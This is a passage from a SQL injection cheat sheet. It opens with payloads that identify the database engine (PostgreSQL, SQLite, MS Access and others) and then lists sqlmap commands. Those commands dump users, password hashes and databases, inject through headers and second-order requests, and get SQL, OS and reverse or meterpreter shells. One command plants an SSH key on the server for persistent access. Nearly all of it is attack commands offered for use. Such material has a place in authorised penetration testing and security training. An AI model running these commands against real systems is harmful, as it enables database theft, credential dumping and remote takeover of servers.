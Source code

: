 ```c
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

## SQL injection using SQLmap

### Basic arguments for SQLmap

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### Load a request file and use mobile user-agent

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### Custom injection in UserAgent/Header/Referer/Cookie

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### Second order injection

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```
